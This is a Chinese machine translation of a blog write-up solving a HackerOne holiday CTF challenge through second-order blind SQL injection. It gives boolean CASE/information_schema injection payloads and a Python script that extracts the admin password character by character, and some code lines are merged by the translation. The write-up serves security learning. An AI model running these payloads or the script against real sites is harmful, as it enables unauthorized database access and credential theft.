# 利用二阶盲 SQL 注入

> 原文：<https://infosecwriteups.com/exploiting-second-order-blind-sql-injection-689e98f04daa?source=collection_archive---------0----------------------->

最近，HackerOne 组织了一个名为“12 天假期”的在线 CTF。

[](https://www.hackerone.com/blog/12-days-hacky-holidays-ctf) [## CTF 的 12 天假期

### 亲爱的黑客们，圣诞怪杰今年用高科技破坏了节日，我们需要你们…

www.hackerone.com](https://www.hackerone.com/blog/12-days-hacky-holidays-ctf) 

总共有 12 面旗帜需要捕捉，对于每面旗帜，HackerOne 都在他们的平台上发出了私人程序邀请。

 [## 格林奇网络应用

### 编辑描述

hackyholidays.h1ctf.com](https://hackyholidays.h1ctf.com/apps) 

有一个特别的挑战叫做邪恶测验，它很容易受到二阶 SQL 注入的攻击。在这篇文章中，我将提供关于这个解决方案的细节以及我解决这个问题的方法。

## 挑战的细节

挑战赛的主页有一个表单，它将一个名称作为输入参数。



在提交该表单时，应用程序重定向到/evil-quick URL，选择了“测验”选项卡，并设置一个随机 md5 值作为会话 cookie。



“测验”选项卡有 4 个带单选按钮的测验，在提交测验页面时，会重定向到/score URL，其中包含用户的分数。



分数页面

还有一个管理员登录页面。这里的主要挑战是通过这个管理员登录页面并访问管理员测验页面。



管理员登录页面

## 我试过但没用的东西

1.  使用 wfuzz 模糊目录[https://hackyholidays.h1ctf.com/evil-quiz/](https://hackyholidays.h1ctf.com/evil-quiz/admin)和[https://hackyholidays.h1ctf.com/evil-quiz/admin](https://hackyholidays.h1ctf.com/evil-quiz/admin)
2.  hydra 的暴力破解管理页面[尽管我在登录失败时收到一条消息*用户名/密码组合无效*，这并不意味着 creds 可以被暴力破解]
3.  在管理员登录页面的用户名和密码参数中尝试了 sql 注入

## SQL 注入(二阶盲注入)

打嗝学院有一篇很好的文章来解释盲人 SQL 注入。

[](https://portswigger.net/web-security/sql-injection/blind) [## 什么是 SQL 盲注入？教程和示例|网络安全学院

### 在这一节中，我们将描述什么是盲 SQL 注入，解释寻找和利用…

portswigger.net](https://portswigger.net/web-security/sql-injection/blind) 

二阶 SQL 注入不会立即返回注入的结果，但是在 SQL 查询中使用该数据时，注入的有效负载会与其他一些请求一起执行。盲+二阶=二阶盲 SQL 注入。

## 识别 SQL 注入

测验页面上的 Name 参数容易受到盲 SQL 注入的攻击，但是在为用户检索分数时，这个 SQL 注入的结果会反映在分数页面上。以一个名字作为测试，分数页的回应是*有 58 个玩家和你同名！*



将 SQL 注入有效负载放入名称参数 test '或 1=1 #会返回完整的记录计数(1218059)。



通过查看后端的响应代码，可以假设

```
select count(*) from table_name where name=+$_GET('name') 
```

对于 PHP 应用程序。现在这里，即使 name 参数易受 SQL 注入攻击，我们也只是从数据库中获得计数而不是值，这就是 blind 的原因。由于 SQL 注入的结果不是在同一个请求-响应周期中出现，而是在一个单独的/得分请求被触发时被执行，这是它的第二顺序。

如何从这里开始:

1.  找出不同的表格长度和名称(明显的名称可以是测验、用户、管理员、分数等。因为它是 CTF)
2.  查找表中的列名及其值
3.  最终目标是找到登录到管理区的用户名和密码

## 找出表名和列名

手动这样做很困难，因为我们必须基于布尔(真或假)条件来枚举不同的字符。所以我决定写一个快速的 python 脚本来减轻痛苦。这是我快速编写的 python 脚本。(没什么特别的，只是发送一些请求并循环响应)

[](https://github.com/nirajchoubey12/hacking-resources/blob/master/seconond-order-blind-sql-injection.py) [## nirajchoubey 12/黑客资源

### 这将包含用于 pentesting-nirajchoubey 12/hacking-resources 的笔记、技术和工具

github.com](https://github.com/nirajchoubey12/hacking-resources/blob/master/seconond-order-blind-sql-injection.py) 

作为第一步，我尝试使用 information_schema 和 case 语句来枚举有多少个表。我使用下面的查询作为有效负载来找出表的数量

```
' and (SELECT (CASE WHEN (SELECT count(table_name) FROM information_schema.tables )= 4 then 1 else 0 end)) =1 #
```

让我们打破上面的有效载荷，

1.  *SELECT count(table _ name)FROM information_schema . tables*—将获得 information _ schema 中所有表的计数。
2.  *(从 1 号输出，假设其 3)= 4，则 1 否则 0 结束)——*点 1 中查询的输出，即*。* 3 将与 4 进行比较，因为 case 语句的错误输出将是 0，或者如果 select 语句的输出是 4，那么 case 语句将返回 1。
3.  *'和(SELECT(1 或 0 以上的 no 2 输出))=1 # —* 最终选择语句。基于该语句的真或假输出，我们将能够找出模式中的表的数量。

通过将上述查询放入脚本，发现总共有 81 个表



实际上很难枚举所有的表，所以假设有一个名为 quiz 和 admin 的表。我使用下面的查询验证了这一点

```
' and (SELECT (CASE WHEN EXISTS(SELECT table_name FROM information_schema.tables where length(table_name) = 5 and table_name = 'admin') THEN 1 ELSE 0 END)) = 1 #
```

类似地，可以枚举列数和列名，但是查看登录请求时，我假设 admin 表将有 3 列 id、用户名和密码。


## 查找管理员密码

可以通过查询来确认列名

```
' and (SELECT (CASE WHEN EXISTS(SELECT password FROM admin ) THEN 1 ELSE 0 END)) =1 #
```

我还检查了 admin 表中有多少行。结果是 1。因此必须找出用户“admin”的密码(再次猜测，可以使用查询再次确认

```
' and (SELECT (CASE WHEN EXISTS(SELECT password FROM admin WHERE username = 'admin') THEN 1 ELSE 0 END)) =1 #
```

现在我们需要找出密码的长度。

```
' and (SELECT (CASE WHEN EXISTS(SELECT password FROM admin WHERE username = 'admin' and length(password) = 17 ) THEN 1 ELSE 0 END)) =1 #
```

admin 的密码长度是 17。



现在让我们找到 admin 的密码，修改脚本以枚举密码

```
import requests,time,recharlists= ['0','1','2','3','4','5','6','7','8','9','0','a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', 'A','B','C','D','E','F','G','H','I','J','K','L','M','N','O','P','Q','R','S','T','U','V','W','X','Y','Z','_','{','}','-','$','!','@','#']URL = "https://hackyholidays.h1ctf.com/evil-quiz/"
password = ""
headers = {'Cookie': 'session=49760dc697484323f6057689d396b3f8'}
data = {'name' : 'test'}r = requests.post(url = URL , data = data, headers = headers)
for i in range(1,18):
   for x in charlists:
      data = {'name': '\' and (SELECT (CASE WHEN EXISTS(SELECT username FROM admin where username = \'admin\' and BINARY substring(password,'+str(i)+',1) = \'' + str(x) + '\')  then 1 else 0 end)) = 1 # '} 
      r = requests.post(url = URL, data = data, headers = headers)out = requests.get(url = URL + "score", headers = headers)
      result = re.search('There is (.*) other player',out.text)
      if int(result.group(1)) > 0:
          password += str(x)
          print("Give me password plaease ::-> " + password)
          break
      else:
          pass
```

所以上面的脚本试图使用 substring 函数逐个找出密码中的每个字符。对于密码中的每个字符，我们将遍历*列表中的每个字符。* ***【注意使用 regex 分离出有效条目】*** 使用上面的脚本我发现密码是 s3cret_p4ssw0rd-$。然而，这是不正确的，因为 substring()比较不区分大小写。所以在 substring()之前包含了一个二进制关键字来进行区分大小写的比较。所以最后得到的密码是 S3creT_p4ssw0rd-$。



使用 creds admin/S3creT_p4ssw0rd-$登录到管理区并得到了标志。



感谢阅读。如果您有任何问题，请在评论中提问，并提供反馈。我随时准备与任何人讨论和学习。在 LinkedIn 或 Twitter ( [@NirajRm7](http://twitter.com/NirajRm7) )上联系我，向我问好。

[](https://www.linkedin.com/in/niraj-kumar-choubey-7351b892/) [## niraj kumar choubey -领导网络安全-富达投资| LinkedIn

### 查看 niraj kumar choubey 在世界上最大的职业社区 LinkedIn 上的个人资料。niraj kumar 有 4 份工作…

www.linkedin.com](https://www.linkedin.com/in/niraj-kumar-choubey-7351b892/)